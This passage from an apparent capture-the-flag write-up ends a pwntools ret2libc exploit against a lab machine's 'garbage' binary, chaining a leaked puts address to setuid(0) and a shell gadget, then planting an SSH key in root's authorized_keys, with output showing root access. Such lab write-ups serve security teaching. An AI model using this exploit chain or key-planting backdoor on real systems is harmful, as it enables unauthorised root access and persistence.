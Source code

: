 
    # offsets
    libc_puts    = 0x809c0  # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@@GLIBC"
    libc_exec_sh = 0x4f322  # one_gadget gadget garbage
    libc_setuid  = 0xe5970  # readelf -s libs/libc6_2.27-3ubuntu1_amd64/libc.so.6 | grep " setuid@@GLIBC"
    libc_base   = leaked_puts - libc_puts

    stage_2 = junk + pop_rdi + p64(0) + p64(libc_setuid + libc_base) + p64(libc_exec_sh + libc_base)
    garbage.sendline(stage_2)
    garbage.recvuntil("access denied.")
    garbage.sendline('echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0SwpwZ7rgMtCZYzkDtFJvQZO20N+8DmYxOix+PgL6VQW/9wZC3xnKK1zeAelMYtv/O38GXE2ghUH7z6ayVmTMkjGqt18mhsEpCt0BbonGRC0IHoBsV5QBVNin+x1soVdECT1Tr45bNnTnkZXIgSyDumc+    2Ix6A1wiiC5RbI3SrxJ7nL0lRlhjdoAH6KCb4dwhX+Jos0VudHRreE01+0YE0Qb7Sd0eA5Cq7UtjgiW6VyXcmWH7aQdVZlUanrs5wdwWYeVCxY/XfFCCDmHZw+8W5INudM2t7on7bl/rYnhAExOr14/1s7LfYAfV8B6VNPPX+IOzOcT4aYQC3rRDiG5P root@kali" >> /root/.ssh/      authorized_keys')
    garbage.interactive()



I added a line to write my public key into root's `authorized_keys`
file, just for extra access.

When I run it, I have a shell, and can get the flag:



    root@kali# ./root_shell.py
    [+] Connecting to 10.10.10.139 on port 22: Done
    [*] margo@10.10.10.139:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Starting remote process 'garbage' on 10.10.10.139: pid 24021
    [+] Leaked puts address: 0x7f2c6ea789c0
    [*] Switching to interactive mode

    # $ id
    uid=0(root) gid=1002(margo) groups=1002(margo)
    # $ cat /root/root.txt
    1cc73a44...



## Beyond Root

### Broken Priv

The one thing about this box I really didn't enjoy was that the privesc
relies on misconfigured permissions to `shadow.bak`, and those
permissions are reset to correct (patching the box making privesc
impossible) in a cron that runs daily.
